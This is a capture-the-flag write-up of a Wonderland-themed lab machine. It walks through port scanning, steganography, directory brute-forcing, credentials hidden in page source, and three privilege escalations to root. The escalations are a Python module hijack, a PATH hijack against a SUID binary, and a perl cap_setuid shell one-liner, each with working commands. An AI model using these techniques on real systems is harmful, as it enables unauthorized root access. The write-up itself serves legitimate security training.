






## Scenario

> Enter Wonderland and capture the flags.

Access via: `10.114.172.11`

## Initial Enumeration

### Port Scanning

I ran a full-port scan first to make sure nothing was hiding outside the usual ports before narrowing down.

```shell
┌──(—REDACTED—㉿kali)-[~]
└─$ sudo nmap 10.114.172.11 -p- -T4         
[sudo] password for —REDACTED—: 
Starting Nmap 7.991 ( https://nmap.org ) at 2026-11-25 15:27 +0200
Nmap scan report for 10.114.172.11
Host is up (0.034s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 35.20 seconds
```

Just the two ports: SSH and a web server.

```shell
┌──(—REDACTED—㉿kali)-[~]
└─$ sudo nmap 10.114.172.11 -p22,80 -sV -sC
[sudo] password for —REDACTED—:
Starting Nmap 7.991 ( https://nmap.org ) at 2026-11-25 15:30 +0200
Nmap scan report for 10.114.172.11
Host is up (0.034s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 8e:ee:fb:96:ce:ad:70:dd:05:a9:3b:0d:b0:71:b8:63 (RSA)
|   256 7a:92:79:44:16:4f:20:43:50:a9:a8:47:e2:c2:be:84 (ECDSA)
|_  256 00:0b:80:44:e6:3d:4b:69:47:92:2c:55:14:7e:2a:c9 (ED25519)
80/tcp open  http    Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
|_http-title: Follow the white rabbit.
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.66 seconds
```
### Exploring the Web Server



Wappalyzer didn't identify anything and there was no `robots.txt`. The page source revealed a `img/` directory.

```html
<!DOCTYPE html>
<head>
    <title>Follow the white rabbit.</title>
    <link rel="stylesheet" type="text/css" href="/main.css">
</head>
<body>
    <h1>Follow the White Rabbit.</h1>
    <p>"Curiouser and curiouser!" cried Alice (she was so much surprised, that for the moment she quite forgot how to speak good English)</p>
    
</body>
```

I went to `/img/` directly and found a plain directory listing of three images, with nothing else to go on at that point.



I treated this as a steganography angle, which isn't something I'm too well-versed in, so I conducted a little bit of research first. This turned up `steghide` and `stegosuite` as the common tools for this.


### Testing for Steganography

I installed `steghide` and downloaded the three images.


Then ran the following to see if there is any embedded data within the files.

```shell
┌──(—REDACTED—㉿kali)-[~]
└─$ steghide info rabbit.jpeg
"rabbit.jpeg":
  format: jpeg
  capacity: 99.2 KB
Try to get information about embedded data ? (y/n) y
Enter passphrase:
  embedded file "hint.txt":
    size: 22.0 Byte
    encrypted: rijndael-128, cbc
    compressed: yes
```

**Breakdown:**

- `info` tells steghide to report on any data embedded in the file, rather than embedding or extracting
- `rabbit.jpeg` the carrier file to inspect

There was indeed something embedded in the rabbit image. 

**Note:** the passphrase prompt didn't actually give me a chance to type anything before steghide found the embedded file. My guess was that this is just how steghide behaves when there's no passphrase set, though I wasn't sure.

Ran the same command for the rest of the images. 

```shell
┌──(—REDACTED—㉿kali)-[~]
└─$ steghide info alice.jpeg
"alice.jpeg":
  format: jpeg
  capacity: 68.9 KB
Try to get information about embedded data ? (y/n) y
Enter passphrase:
steghide: could not extract any data with that passphrase!
```

Nothing in `alice.jpeg`.

```shell
┌──(—REDACTED—㉿kali)-[~]
└─$ steghide info alice.png
steghide: the file format of the file "alice.png" is not supported.
```

`steghide` doesn't handle PNG, so I downloaded Stegosuite too, which does. It found nothing embedded in `alice.png` either.



Extracting from the rabbit image:

```shell
┌──(—REDACTED—㉿kali)-[~]
└─$ steghide extract -sf rabbit.jpeg
Enter passphrase:
wrote extracted data to "hint.txt".
```

**Breakdown:**

- `extract` tells steghide to pull the embedded file out, rather than just report on it
- `-sf rabbit.jpeg` specifies `rabbit.jpeg` as the stego file to extract from

```shell
┌──(—REDACTED—㉿kali)-[~]
└─$ cat hint.txt
follow the r a b b i t
```

### Directory Discovery

With the steganography stint netting nothing significant, I turned to spidering and enumerating subdirectories. 

```shell
┌──(—REDACTED—㉿kali)-[~]
└─$ feroxbuster -u 'http://10.114.172.11/' -w /usr/share/wordlists/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-medium.txt --no-state

 ___  ___  __   __     __      __         __   ___
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
by Ben "epi" Risher 🤓                 ver: 2.14.0
───────────────────────────┬──────────────────────
 🎯  Target Url            │ http://10.114.172.11/
 🚩  In-Scope Url          │ 10.114.172.11
 🚀  Threads               │ 50
 📖  Wordlist              │ /usr/share/wordlists/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-medium.txt
 👌  Status Codes          │ All Status Codes!
 💥  Timeout (secs)        │ 7
 🦡  User-Agent            │ feroxbuster/2.14.0
 💉  Config File           │ /etc/feroxbuster/ferox-config.toml
 🔎  Extract Links         │ true
 🏁  HTTP methods          │ [GET]
 🔃  Recursion Depth       │ 4
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Management Menu™
──────────────────────────────────────────────────
404      GET        1l        4w       19c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
301      GET        0l        0w        0c http://10.114.172.11/img => img/
200      GET       11l       24w      217c http://10.114.172.11/main.css
301      GET        0l        0w        0c http://10.114.172.11/r => r/
200      GET     5509l    32331w  3689233c http://10.114.172.11/img/white_rabbit_1.jpg
200      GET       10l       44w      402c http://10.114.172.11/
301      GET        0l        0w        0c http://10.114.172.11/r/a => a/
301      GET        0l        0w        0c http://10.114.172.11/r/a/b => b/
301      GET        0l        0w        0c http://10.114.172.11/r/a/b/b => b/
301      GET        0l        0w        0c http://10.114.172.11/poem => poem/
301      GET        0l        0w        0c http://10.114.172.11/http%3A%2F%2Fwww => http://10.114.172.11/http:/www
301      GET        0l        0w        0c http://10.114.172.11/img/http%3A%2F%2Fwww => http://10.114.172.11/img/http:/www
301      GET        0l        0w        0c http://10.114.172.11/r/http%3A%2F%2Fwww => http://10.114.172.11/r/http:/www
301      GET        0l        0w        0c http://10.114.172.11/r/a/http%3A%2F%2Fwww => http://10.114.172.11/r/a/http:/www
301      GET        0l        0w        0c http://10.114.172.11/r/a/b/http%3A%2F%2Fwww => http://10.114.172.11/r/a/b/http:/www
301      GET        0l        0w        0c http://10.114.172.11/poem/http%3A%2F%2Fwww => http://10.114.172.11/poem/http:/www
```

`r`, `r/a`, `r/a/b`, `r/a/b/b` formed a visible chain; even without the earlier `hint.txt` contents ("follow the r a b b i t"), one could've guessed that the next segment was `r/a/b/b/i/t`.

```shell
<!DOCTYPE html>

<head>
    <title>Enter wonderland</title>
    <link rel="stylesheet" type="text/css" href="/main.css">
</head>

<body>
    <h1>Open the door and enter wonderland</h1>
    <p>"Oh, you’re sure to do that," said the Cat, "if you only walk long enough."</p>
    <p>Alice felt that this could not be denied, so she tried another question. "What sort of people live about here?"
    </p>
    <p>"In that direction,"" the Cat said, waving its right paw round, "lives a Hatter: and in that direction," waving
        the other paw, "lives a March Hare. Visit either you like: they’re both mad."</p>
    <p style="display: none;">alice:HowDothTheLittleCrocodileImproveHisShiningTail</p>
    
</body>
```

Navigating to `http://10.114.172.11/r/a/b/b/i/t` landed me on the following page: 



Hidden in the source was a plaintext credential pair for `alice`. 

```html
<!DOCTYPE html>

<head>
    <title>Enter wonderland</title>
    <link rel="stylesheet" type="text/css" href="/main.css">
</head>

<body>
    <h1>Open the door and enter wonderland</h1>
    <p>"Oh, you’re sure to do that," said the Cat, "if you only walk long enough."</p>
    <p>Alice felt that this could not be denied, so she tried another question. "What sort of people live about here?"
    </p>
    <p>"In that direction,"" the Cat said, waving its right paw round, "lives a Hatter: and in that direction," waving
        the other paw, "lives a March Hare. Visit either you like: they’re both mad."</p>
    <p style="display: none;">alice:HowDothTheLittleCrocodileImproveHisShiningTail</p>
    
</body>
```

There was also a `/poem/` page, but nothing actionable on it beyond the poem text itself.



## Initial Access as Alice

Logged in with the credentials found in the hidden page source.

```shell
┌──(—REDACTED—㉿kali)-[~]
└─$ ssh alice@10.114.172.11
—SNIP—


Last login: Mon May 25 16:37:21 2020 from 192.168.170.1
alice@wonderland:~$
```
## Alice → Rabbit: Python Library Hijacking

```shell
alice@wonderland:~$ ls
root.txt  walrus_and_the_carpenter.py
```

No permission on `root.txt`. The script meanwhile:

```python
import random
poem = """
—SNIP—
"""

for i in range(10):
    line = random.choice(poem.split("\n"))
    print("The line was:\t", line)
```

It imports the standard `random` module and prints ten random lines from the poem string. 

```shell
alice@wonderland:~$ sudo -l
[sudo] password for alice:
Matching Defaults entries for alice on wonderland:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User alice may run the following commands on wonderland:
    (rabbit) /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py
```

Checking `sudo -l` revealed that Alice can run that exact script as `rabbit` via sudo. Since the script does `import random`, I considered hijacking the module.

```shell
alice@wonderland:~$ python3 -c 'import sys; print("\n".join(sys.path))'

/usr/lib/python36.zip
/usr/lib/python3.6
/usr/lib/python3.6/lib-dynload
/usr/local/lib/python3.6/dist-packages
/usr/lib/python3/dist-packages
```

**Breakdown:**

- `-c` tells the interpreter to run the following string directly, rather than reading it from a file
- `'import sys; print("\n".join(sys.path))'` imports `sys` and prints every directory Python searches for a module, in search order

The blank line at the top of the output is the empty-string entry for the current working directory, meaning the cwd is searched before any of the paths listed below it.

```shell
alice@wonderland:~$ find / -type f -name *random* 2>/dev/null
—SNIP—
/usr/lib/python3.6/random.py
—SNIP—
```

This confirmed the real module being hijacked.

```shell
alice@wonderland:~$ echo 'writeable?' > test.txt
```

Confirmed the home directory was writable, which is needed to plant a fake module ahead of the real one in the search path.

```shell
alice@wonderland:~$ echo 'import os; os.execl("/bin/bash", "bash")' > random.py
alice@wonderland:~$ chmod 777 random.py
alice@wonderland:~$ ls -l
total 16
-rwxrwxrwx 1 alice alice   55 Nov 25 14:35 random.py
-rw------- 1 root  root    66 May 25  2020 root.txt
-rw-rw-r-- 1 alice alice   11 Nov 25 14:32 test.txt
-rw-r--r-- 1 root  root  3577 May 25  2020 walrus_and_the_carpenter.py
```

**Breakdown:**

- `echo 'import os; os.execl("/bin/bash", "bash")' > random.py` writes a one-line payload into `random.py`: it imports `os`, then calls `os.execl`, which replaces the current process with `/bin/bash` (the first argument is the executable's path, the second is the `argv[0]` the new process sees)


```shell
alice@wonderland:~$ sudo -u rabbit /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py
rabbit@wonderland:~$ whoami
rabbit
```

Since the planted module replaces the process with `/bin/bash` the moment it's imported, this gave a shell as `rabbit` instead of running the poem script.

## Rabbit → Hatter: SUID Binary and PATH Hijacking

Next, I enumerated SUID binaries:

```shell
rabbit@wonderland:/home/rabbit$ find / -perm -04000 -type f -ls 2>/dev/null
  1049052     20 -rwsr-sr-x   1 root     root        16816 May 25  2020 /home/rabbit/teaParty
—SNIP—
```

`/home/rabbit/teaParty` stood out immediately as not belonging to the base system.

```shell
rabbit@wonderland:/home/rabbit$ ls
teaParty
rabbit@wonderland:/home/rabbit$ ls -la
total 40
drwxr-x--- 2 rabbit rabbit  4096 May 25  2020 .
drwxr-xr-x 6 root   root    4096 May 25  2020 ..
lrwxrwxrwx 1 root   root       9 May 25  2020 .bash_history -> /dev/null
-rw-r--r-- 1 rabbit rabbit   220 May 25  2020 .bash_logout
-rw-r--r-- 1 rabbit rabbit  3771 May 25  2020 .bashrc
-rw-r--r-- 1 rabbit rabbit   807 May 25  2020 .profile
-rwsr-sr-x 1 root   root   16816 May 25  2020 teaParty
```

```shell
rabbit@wonderland:/home/rabbit$ ./teaParty
Welcome to the tea party!
The Mad Hatter will be here soon.
Probably by Wed, 25 Nov 2026 15:45:07 +0000
Ask very nicely, and I will give you some tea while you wait for him
hello
Segmentation fault (core dumped)
```

I typed `hello` at the prompt, which crashed the program; a dead end on its own, but worth pulling the binary apart.

`strings` wasn't installed on the box, so I served the binary over HTTP and pulled it to my machine instead.

```shell
rabbit@wonderland:/home/rabbit$ python3 -m http.server 8080
Serving HTTP on 0.0.0.0 port 8080 (http://0.0.0.0:8080/) ...
```

```shell
┌──(—REDACTED—㉿kali)-[~]
└─$ wget http://10.114.172.11:8080/teaParty -O teaParty
--2026-11-25 16:53:05--  http://10.114.172.11:8080/teaParty
Connecting to 10.114.172.11:8080... connected.
HTTP request sent, awaiting response... 200 OK
Length: 16816 (16K) [application/octet-stream]
Saving to: ‘teaParty’

teaParty                      100%[==============================================>]  16.42K  --.-KB/s    in 0.03s

2026-11-25 16:53:05 (495 KB/s) - ‘teaParty’ saved [16816/16816]
```

Now on my machine, I can run `strings` against the binary. 

```shell
┌──(—REDACTED—㉿kali)-[~]
└─$ strings teaParty
/lib64/ld-linux-x86-64.so.2
2U~4
libc.so.6
setuid
puts
getchar
system
__cxa_finalize
setgid
__libc_start_main
GLIBC_2.2.5
_ITM_deregisterTMCloneTable
__gmon_start__
_ITM_registerTMCloneTable
u/UH
[]A\A]A^A_
Welcome to the tea party!
The Mad Hatter will be here soon.
/bin/echo -n 'Probably by ' && date --date='next hour' -R
Ask very nicely, and I will give you some tea while you wait for him
Segmentation fault (core dumped)
;*3$"
GCC: (Debian 8.3.0-6) 8.3.0
crtstuff.c
—SNIP—
```

Two things stood out: the binary calls `setuid`/`setgid` internally (so it deliberately changes to a specific user rather than staying root), and it shells out with `/bin/echo -n 'Probably by ' && date --date='next hour' -R`—calling `date` without a full path, which means `$PATH` decides which `date` actually runs, and thereby vulnerable to PATH hijacking. 

```shell
rabbit@wonderland:/home/rabbit$ echo '/bin/bash' > date
rabbit@wonderland:/home/rabbit$ cat date
/bin/bash
rabbit@wonderland:/home/rabbit$ export PATH=/home/rabbit:$PATH
rabbit@wonderland:/home/rabbit$ echo $PATH
/home/rabbit:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/snap/bin
rabbit@wonderland:/home/rabbit$ chmod 777 date
```

**Breakdown:**

- `echo '/bin/bash' > date` writes a one-line script into a file called `date`, which just hands back an interactive bash shell when run
- `cat date` confirms its contents
- `export PATH=/home/rabbit:$PATH` prepends `/home/rabbit` to the search path, so it's checked before the real `/bin/date`
- `echo $PATH` confirms the updated order
- `chmod 777 date` makes the fake `date` executable, readable and writable by everyone

```shell
rabbit@wonderland:/home/rabbit$ ./teaParty
Welcome to the tea party!
The Mad Hatter will be here soon.
Probably by hatter@wonderland:/home/rabbit$
hatter@wonderland:/home/rabbit$ whoami
hatter
```

Because `teaParty` resolves `date` through `$PATH`, it now runs the planted script instead, handing back a shell. Since the `strings` output showed the binary calling `setuid`/`setgid` internally before shelling out, the resulting shell comes back as `hatter`.

```shell
hatter@wonderland:/home/rabbit$ cd /home/hatter
hatter@wonderland:/home/hatter$ ls
password.txt
hatter@wonderland:/home/hatter$ cat password.txt
WhyIsARavenLikeAWritingDesk?
```

## Hatter → Root: Capability-Based Privilege Escalation

```shell
hatter@wonderland:/home/hatter$ getcap -r / 2>/dev/null
/usr/bin/perl5.26.1 = cap_setuid+ep
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/bin/perl = cap_setuid+ep
```

`cap_setuid+ep` on perl means any process running that binary can call `setuid()` to change its own UID, including to root, regardless of who ran it.



```shell
hatter@wonderland:/home/hatter$ perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh"'
bash: /usr/bin/perl: Permission denied
```

**Breakdown:**

- `-e '...'` tells perl to run the following string as the program rather than reading one from a file
- `use POSIX qw(setuid)` imports the `setuid` function from the POSIX module
- `POSIX::setuid(0)` calls it with UID `0`, which, combined with the `cap_setuid` capability, raises the process's UID to root
- `exec "/bin/sh"` replaces the current process with a shell, now running as root if the call succeeded

Trying the specific `perl5.26.1` binary directly too was denied in the same way. A bit puzzled by the denial, I eventually checked the permissions. 

```shell
hatter@wonderland:/home/hatter$ id
uid=1003(hatter) gid=1002(rabbit) groups=1002(rabbit)
```

```shell
hatter@wonderland:/home/hatter$ ls -la /usr/bin/perl /usr/bin/perl5.26.1
-rwxr-xr-- 2 root hatter 2097720 Nov 19  2018 /usr/bin/perl
-rwxr-xr-- 2 root hatter 2097720 Nov 19  2018 /usr/bin/perl5.26.1
```

Both files are only executable by `root` or the `hatter` group, and `other` has no execute bit at all. Despite `whoami` reporting `hatter`, the shell obtained through the `teaParty`/`date` hijack still had `gid=1002(rabbit)`, not `hatter`'s own group, since it came from a spawned process rather than a proper login. That mismatch was why execution was denied outright.

```shell
hatter@wonderland:/home/rabbit$ su hatter
Password:
hatter@wonderland:/home/alice$ whoami
hatter
hatter@wonderland:/home/alice$ id
uid=1003(hatter) gid=1003(hatter) groups=1003(hatter)
```

**Breakdown:**

- `su hatter` switches to a proper session as `hatter`, prompting for that account's own password, found earlier in `password.txt`

This time the group came back correctly as `hatter`.

```shell
hatter@wonderland:/home/alice$ perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";'
# whoami
root
```

With group membership now correct, perl could execute and the `cap_setuid` capability took effect.

```shell
# cd /root
# ls
user.txt
# cat user.txt
—REDACTED—
```

Fittingly for an Alice in Wonderland-themed box, things are upside down here: the user flag sits in `/root`, and the root flag sits in Alice's home directory.

```shell
# cd /home/alice
# cat root.txt
—REDACTED—
```

## Flags

### Question 1 — Obtain the flag in user.txt

**Answer:** `—REDACTED—`

### Question 2 — Escalate your privileges, what is the flag in root.txt?

**Answer:** `—REDACTED—`